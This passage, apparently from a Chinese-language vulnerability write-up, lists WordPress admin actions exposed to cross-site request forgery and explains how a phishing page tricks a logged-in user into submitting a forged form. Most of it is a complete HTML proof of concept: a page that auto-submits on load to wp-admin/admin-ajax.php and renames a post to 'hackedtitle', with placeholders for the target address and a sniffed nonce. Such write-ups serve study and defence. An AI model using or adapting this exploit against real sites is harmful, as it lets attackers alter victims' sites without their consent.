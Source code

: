 - Add Admin/User
- Delete Admin/User
- Approve comment
- Unapprove comment
- Delete comment
- Change background image
- Insert custom header image
- Change site title
- Change administrator's email
- Change Wordpress Address
- Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的 Exploit 代码为 :

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to change post title</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php"
    >
      <input type="hidden" name="post_title" value="hackedtitle" />
      <input type="hidden" name="post_name" value="hackedtitle" />
      <input type="hidden" name="mm" value="03" />
      <input type="hidden" name="jj" value="16" />
      <input type="hidden" name="aa" value="2012" />
      <input type="hidden" name="hh" value="" />
      <input type="hidden" name="mn" value="" />
      <input type="hidden" name="ss" value="" />
      <input type="hidden" name="post_author" value="1" />
      <input type="hidden" name="post_password" value="" />
      <input type="hidden" name="post_category%5B%5D" value="0" />
      <input type="hidden" name="post_category%5B%5D" value="1" />
      <input type="hidden" name="tax_input%5Bpost_tag%5D" value="" />
      <input type="hidden" name="comment_status" value="open" />
      <input type="hidden" name="ping_status" value="open" />
      <input type="hidden" name="_status" value="publish" />
      <input type="hidden" name="post_format" value="0" />
      <input type="hidden" name="_inline_edit" value="<sniffed_value>" />
      <input type="hidden" name="post_view" value="list" />
      <input type="hidden" name="screen" value="edit-post" />
      <input type="hidden" name="action" value="inline-save" />
      <input type="hidden" name="post_type" value="post" />
      <input type="hidden" name="post_ID" value="1" />
      <input type="hidden" name="edit_date" value="true" />
      <input type="hidden" name="post_status" value="all" />
    </form>
  </body>
</html>
```
